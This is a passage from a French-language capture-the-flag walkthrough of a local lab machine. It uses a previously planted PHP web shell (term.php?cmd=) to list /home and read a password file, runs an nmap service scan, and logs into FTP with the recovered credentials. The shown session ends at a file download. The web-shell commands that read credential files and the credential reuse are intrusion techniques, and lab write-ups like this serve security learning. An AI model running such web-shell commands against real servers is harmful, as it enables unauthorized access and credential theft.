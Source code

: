 ```
/var/www/forum/templates_c
```

Maintenant avec notre `backdoor` nous pouvons parcourir les dossiers sur le serveur.

En nous baladant dans les dossiers nous avons pu trouver dans le dossier `/home` un répertoire nommé `LOOKATME`, dans le quel il y a un fichier password.

```
https://192.168.56.101/forum/templates_c/term.php?cmd=ls%20/home
LOOKATME ft_root laurie laurie@borntosec.net lmezard thor zaz

https://192.168.56.101/forum/templates_c/term.php?cmd=ls%20/home/LOOKATME
password

https://192.168.56.101/forum/templates_c/term.php?cmd=cat%20/home/LOOKATME/password
lmezard:G!@M6f4Eatau{sF"
```

Nous venons de trouver de nouveaux identifiants `lmezard - G!@M6f4Eatau{sF"`

## Étape 6 - FTP:

Les nouveaux identifiants ne marchaient pas en ssh, mais le port `21/tcp` était ouvert lors de notre premier nmap.

Pour verifier que le port 21 est bien celui d'un service ftp nous pouvons ré-executer la commande nmap avec quelque paramètre en plus `nmap -sV 192.168.56.101`, cette commande nous donne le nom des services lier aux ports ouverts

```sh
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-12 14:12 CET
Nmap scan report for 192.168.56.101
Host is up (0.00032s latency).
Not shown: 994 closed ports
PORT    STATE SERVICE  VERSION
21/tcp  open  ftp      vsftpd 2.0.8 or later
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
143/tcp open  imap     Dovecot imapd
443/tcp open  ssl/http Apache httpd 2.2.22
993/tcp open  ssl/imap Dovecot imapd
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.83 seconds
```

Le service lier au port 21 est bien `vsftpd`, nous pouvons donc essayer de se connecter sur ce service avec les nouveaux identifiants trouvé dans l'étape précedente.

Pour se connecter au serveur ftp nous pouvons executer cette commande `ftp lmezard@192.168.56.101`:

```sh
Connected to 192.168.56.101.
220 Welcome on this server
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||50764|).
150 Here comes the directory listing.
-rwxr-x---    1 1001     1001           96 Oct 15  2015 README
-rwxr-x---    1 1001     1001       808960 Oct 08  2015 fun
226 Directory send OK.
ftp> get README
```